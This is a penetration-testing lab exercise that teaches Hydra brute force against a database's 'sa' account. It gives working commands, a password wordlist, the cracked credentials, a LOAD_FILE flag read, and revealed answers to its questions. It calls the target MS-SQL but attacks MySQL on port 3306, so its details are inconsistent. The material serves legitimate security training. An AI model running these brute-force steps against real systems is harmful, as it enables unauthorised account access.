

# Exercise 6.4: MS-SQL Credential Brute Force

## Before You Begin

Exercise 6.3 demonstrated manual authentication with known credentials. In a real engagement, you rarely receive credentials on a silver platter. You often know the username (from enumeration or convention) but not the password. In this exercise, you will use Hydra; a fast, parallelized login cracker; to brute force the database password for the `sa` account. The password for this exercise is different from Exercise 6.3, so manual guessing is no longer practical.

## Scenario

FinanceCorp rotated the `sa` password after your initial findings were reported. James Mitchell wants you to test whether the new password is any stronger than the old one. You know the username is still `sa` (it is a system account that cannot be easily renamed), but the password has changed. Your task is to use an automated brute force tool to discover the new password, authenticate, and demonstrate continued access.

## Your Objectives

- Create or locate a password wordlist for the brute force attack
- Use Hydra to brute force the MySQL service on port 3306
- Identify the valid password from Hydra's output
- Authenticate with the discovered credentials
- Capture the flag

---

## Background: Credential Brute Force Attacks

A brute force attack systematically tests password candidates against a login service until a valid combination is found. The attack takes two inputs: a username (or list of usernames) and a wordlist (a file containing one password guess per line). The tool tries each combination and reports any successes.

Brute force attacks succeed because humans are predictable. Studies of leaked password databases reveal that the most common passwords are variations of "password," "123456," "qwerty," and similar patterns. A well-curated wordlist of 1,000 common passwords will crack a significant percentage of accounts in any organization that does not enforce strong password policies.

The speed of a brute force attack depends on several factors: the network latency between you and the target, the number of parallel connections the target can handle, and any account lockout policies in place. Hydra manages these factors by allowing you to control the number of parallel threads and the delay between attempts.



**Important note on account lockout:** MySQL does not implement account lockout by default. You can run thousands of password attempts without locking out the `sa` account. In an MS-SQL environment, account lockout policies may be tied to Windows domain policies, making brute force riskier. Always check the lockout policy before launching an automated attack in a real engagement.

## Tool Primer: Hydra

Hydra is a parallelized network login cracker that supports over 50 protocols, including MySQL, MS-SQL, SSH, FTP, HTTP, and SMB. It reads usernames and passwords from files or command-line arguments and tests them against the target service.

The basic syntax for a MySQL brute force attack is shown below.

```bash
hydra -l <username> -P <wordlist> <target_ip> mysql
```

| Flag | Purpose |
|------|---------|
| `-l sa` | Use a single username: `sa` |
| `-L users.txt` | Use a list of usernames from a file |
| `-p password` | Use a single password |
| `-P wordlist.txt` | Use a password list from a file |
| `-t 4` | Number of parallel threads (default: 16) |
| `-vV` | Verbose mode; shows every attempt |
| `-f` | Stop after finding the first valid credential pair |
| `mysql` | Target service module |

Sample output from a successful brute force looks like the following.

```
[3306][mysql] host: 10.0.0.5   login: sa   password: qwerty
1 of 1 target successfully completed, 1 valid password found
```

Hydra prints the valid credentials in green text and summarizes the results at the end. The `[3306][mysql]` prefix confirms the port and protocol that were attacked.

---

## Walkthrough

### Step 1: Launch the Exercise

Open the OpenCyberRange platform in your browser and start the exercise environment.

- Navigate to **Exercises** and select **MS-SQL Exploitation** then **Level 4**
- Click **Launch** on "MS-SQL Credential Brute Force"
- Wait for the status to change to **Running**
- Note the **target IP** displayed in the Active Lab View

### Step 2: Create a Password Wordlist

Before running Hydra, you need a wordlist. Create a small, targeted wordlist of common passwords. Open a text editor or use the command line.

!!! kali "Kali - Create a password wordlist"
    ```bash
    cat << 'EOF' > /tmp/passwords.txt
    password
    123456
    admin
    letmein
    welcome
    monkey
    dragon
    master
    qwerty
    login
    abc123
    starwars
    trustno1
    iloveyou
    sunshine
    EOF
    ```

In a real engagement, you might use a larger wordlist like `rockyou.txt` (located at `/usr/share/wordlists/rockyou.txt` on Kali Linux). For this exercise, the small targeted list is sufficient because the password is a common one.

### Step 3: Run Hydra Against the MySQL Service

Launch Hydra with the `sa` username and your password wordlist.

!!! kali "Kali - Launch Hydra brute-force against MySQL"
    ```bash
    hydra -l sa -P /tmp/passwords.txt <target_ip> mysql -vV -f
    ```

The `-vV` flag shows each attempt as it happens, so you can see the attack progressing. The `-f` flag tells Hydra to stop as soon as it finds a valid password. Watch the output for a line containing `[3306][mysql]` followed by valid credentials.

### Step 4: Record the Discovered Password

When Hydra finds the valid password, it will display a line like the following.

```
[3306][mysql] host: <target_ip>   login: sa   password: qwerty
```

Record the password. The valid credentials for this exercise are `sa:qwerty`.

### Step 5: Authenticate with the Discovered Credentials

Verify the discovered credentials by connecting to the database.

!!! kali "Kali - Verify the discovered credentials"
    ```bash
    mysql --ssl-verify-server-cert=0 -h <target_ip> -u sa -p'qwerty'
    ```

You should see the MySQL welcome banner and the `mysql>` prompt, confirming that Hydra found the correct password.

### Step 6: Retrieve the Flag

Read the flag from the target file system using the `LOAD_FILE()` function.

!!! kali "Kali - Read the flag via LOAD_FILE"
    ```sql
    SELECT LOAD_FILE('/tmp/flag.txt');
    ```

Record the flag value, then exit the session.

!!! kali "Kali - Exit the MySQL session"
    ```sql
    EXIT;
    ```

---

### Record Your Findings

> **Wordlist used:**
>
> ```
> (note the path and number of entries)
> ```
>
> **Hydra command executed:**
>
> ```
> (paste your exact hydra command here)
> ```
>
> **Hydra output (successful credential line):**
>
> ```
> (paste the [3306][mysql] success line here)
> ```
>
> **Discovered credentials:**
>
> ```
> Username: sa
> Password: (paste the password here)
> ```
>
> **Flag:**
>
> ```
> (paste the flag here)
> ```

---

### Step 7: Record the Flag

The flag is in `OCR{<flag_here>}` format. Copy it and paste it into the **Submit Flag** form on the platform and click **Submit**.

---

## Analysis Questions

Reflect on the brute force process and its implications.

**1. Hydra found the password "qwerty" from a 15-entry wordlist. How does wordlist quality affect brute force success rates?**

??? note "Reveal Answer"

    A well-curated wordlist dramatically improves success rates. The password "qwerty" ranks in the top 10 most common passwords worldwide. A targeted wordlist containing the top 100 common passwords cracks more accounts in practice than a random list of 100,000 strings. Quality (relevance of entries) matters more than quantity (number of entries).

**2. The `-f` flag tells Hydra to stop after the first success. When would you NOT want to use the `-f` flag?**

??? note "Reveal Answer"

    When you suspect multiple users may have weak passwords. Without `-f`, Hydra continues testing all combinations even after finding a valid pair. In a multi-user attack (using `-L users.txt`), you want to find every weak password, not just the first one. Stopping early would miss other compromised accounts.

**3. MySQL does not enforce account lockout by default. How does this make brute force attacks more dangerous compared to services that do lock accounts?**

??? note "Reveal Answer"

    Without lockout, an attacker can test unlimited passwords without any penalty. There is no risk of locking out the account and alerting administrators. The attack can run at full speed with many parallel threads. Services with lockout policies force attackers to slow down or risk triggering alerts and locking out legitimate users, which acts as both a deterrent and a detection mechanism.

**4. FinanceCorp changed the password from "password" (Exercise 6.3) to "qwerty" (Exercise 6.4). Was the password rotation effective?**

??? note "Reveal Answer"

    The rotation was completely ineffective. Both "password" and "qwerty" appear in every common password list. Changing from one weak password to another weak password provides no security improvement. An effective rotation would require a strong, unique password that does not appear in any wordlist; ideally generated randomly with sufficient length and complexity.

---

## Key Takeaways

- Hydra is a parallelized brute force tool that supports MySQL, MS-SQL, and dozens of other protocols
- The command `hydra -l sa -P wordlist.txt <target> mysql` attacks a MySQL service with a single username and a password list
- Wordlist quality determines success; a targeted list of common passwords outperforms a massive random list
- The `-vV` flag provides visibility into each attempt, and `-f` stops after the first success
- MySQL's lack of default account lockout makes brute force attacks fast and low-risk for the attacker
- Password rotation is only effective when the new password is genuinely strong; changing from one common password to another provides no security benefit
